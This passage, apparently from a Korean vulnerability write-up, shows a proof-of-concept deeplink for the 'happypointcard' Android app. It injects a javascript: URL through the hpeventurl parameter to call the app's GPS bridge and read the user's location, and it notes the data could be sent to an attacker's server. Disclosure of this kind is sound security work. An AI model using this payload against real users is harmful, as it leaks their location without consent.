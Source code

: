 ![image-20200622151136809](/assets/2020-06-19-Deeplink.assets/image-20200622151136809.png) 

### 3. PoC

URL에 대해 별다른 검증을 하지 않으므로, 다음과 같이 공격하였다.

`happypointcard://deeplink?hpeventurl=javascript:window.App={recvLocation:function(a,b){alert(a+","+b)}};android.myLocationGPS()`

이 URL을 /<a href/>를 통해 일반 링크처럼 표시하였으며, 클릭시 다음과 같은 alert가 뜨는 것을 확인 할 수 있다. 또한 여건에 따라 출력된 데이터들을 Ajax를 통해 공격자의 서버에 저장 할 수 있다. 
